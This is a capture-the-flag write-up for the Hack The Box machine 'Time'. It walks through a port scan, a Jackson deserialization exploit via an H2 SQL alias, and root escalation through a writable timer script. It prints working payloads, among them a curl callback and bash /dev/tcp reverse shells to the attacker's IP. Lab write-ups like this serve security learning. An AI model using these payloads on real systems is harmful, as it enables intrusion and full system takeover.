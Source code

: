 # Hackthebox - Time

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.114
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds
```

Port 80 which is HTTP is open, so I open the website and got this.
![](webpage.png)

When I click around the website, I found the validate function is giving out an error.
![](errorpage.png)

I started searching about the package in the error and got this article (https://blog.doyensec.com/2019/07/22/jackson-gadgets.html). 
![](exploit.png)

I create an sql file called **exploit.sql** which tells the box to curl my machine on port 8888.
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('curl 10.10.14.66:8888')
```

I setup a python server, send the payload and got a hit.
![](sendpayload.png)
![](pythonhit.png)

I also got a curl on my machine from the box.
![](curled.png)

Now I know the exploit works, so I change the curl command to a reverse shell command.
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.66/8888 0>&1')
```

Setup a listener and got a shell.
![](shell.png)

Next, I run linpeas to enumerate the box for potential privilege escalation vectors and got an interesting binary called **timer_backup**.
![](linpeastimersh.png)

Looking at its content, it looks like it is doing a backup on the web content.
```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

I can write to that file but I can't execute that as root, so I try to look if that binary get executed by a background task and it does.
![](greptimer.png)

Looking through the service, it connects to a service called **timer_backup.service** which is executed every 10 seconds and that service is owned by root.
![](timer.png)

So I can just edit the **timer_backup.sh** file and put a reverse shell command.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

Setup a listener and got a shell as root.
![](rooted.png)